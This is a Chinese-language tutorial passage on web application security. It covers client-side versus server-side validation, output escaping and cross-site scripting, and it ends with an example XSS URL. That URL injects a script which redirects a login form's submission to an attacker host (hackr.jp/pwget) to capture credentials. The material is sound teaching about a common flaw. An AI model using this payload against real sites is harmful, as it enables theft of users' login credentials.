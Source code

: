 &emsp;&emsp;很多企业内网依然可以连接到互联网上，访问Web网站，或接收互联网发来的邮件。这样就可能给攻击者以可乘之机，诱导用户触发陷阱后对企业内网发动攻击

![webAttack5](https://pic.xiaohuochai.site/blog/HTTP_webAttack5.png)

&nbsp;

### 输出值转义不完全

&emsp;&emsp;实施Web应用的安全对策可大致分为以下两部分：客户端的验证和Web应用端(服务器端)的验证

&emsp;&emsp;而Web应用端(服务器端)的验证又包括输入值验证和输出值转义

![webAttack4](https://pic.xiaohuochai.site/blog/HTTP_webAttack4.png)

&emsp;&emsp;多数情况下采用JavaScript在客户端验证数据。可是在客户端允许篡改数据或关闭JavaScript，不适合将JavaScript验证作为安全的防范对策。保留客户端验证只是为了尽早地辨识输入错误，起到提高UI体验的作用

&emsp;&emsp;Web应用端的输入值验证按Web应用内的处理则有可能被误认为是具有攻击性意义的代码。输入值验证通常是指检查是否是符合系统业务逻辑的数值或检查字符编码等预防对策

&emsp;&emsp;从数据库或文件系统、HTML、邮件等输出Web应用处理的数据之际，针对输出做值转义处理是一项至关重要的安全策略。当输出值转义不完全时，会因触发攻击者传入的攻击代码，而给输出对象带来损害

【跨站脚本攻击】

&emsp;&emsp;跨站脚本攻击(Cross-Site Scripting，XSS)是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或JavaScript进行的一种攻击

&emsp;&emsp;动态创建的HTML部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击

&emsp;&emsp;跨站脚本攻击有可能造成以下影响：利用虚假输入表单骗取用户个人信息；利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求；显示伪造的文章或图片

**跨站脚本攻击案例**

1、在动态生成HTML处发生

&emsp;&emsp;下面以编辑个人信息页面为例说明跨站脚本攻击。下方界面显示了用户输入的个人信息内容

![webAttack6](https://pic.xiaohuochai.site/blog/HTTP_webAttack6.png)

&emsp;&emsp;确认界面按原样显示在编辑界面输入的字符串。此处输入带有山口一郎这样的HTML标签的字符串

![webAttack7](https://pic.xiaohuochai.site/blog/HTTP_webAttack7.png)

&emsp;&emsp;此时的确认界面上，浏览器会把用户输入的&lt;s&gt;解析成HTML标签，然后显示删除线

&emsp;&emsp;删除线显示出来并不会造成太大的不利后果，但如果换成使用script标签将会如何呢

2、XSS是攻击者利用预先设置的陷阱触发的被动攻击

&emsp;&emsp;跨站脚本攻击属于被动攻击模式，因此攻击者会事先布置好用于攻击的陷阱

&emsp;&emsp;下图网站通过地址栏中URI的查询字段指定ID，即相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞

![webAttack8](https://pic.xiaohuochai.site/blog/HTTP_webAttack8.png)

&emsp;&emsp;充分熟知此处漏洞特点的攻击者，于是就创建了下面这段嵌入恶意代码的URL。并隐藏植入事先准备好的欺诈邮件中或Web页面内，诱使用户去点击该URL

<div>
<pre>http://example.jp/login?ID="&gt;&lt;script&gt;var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";&lt;/script&gt;&lt;span+s="</pre>
</div>
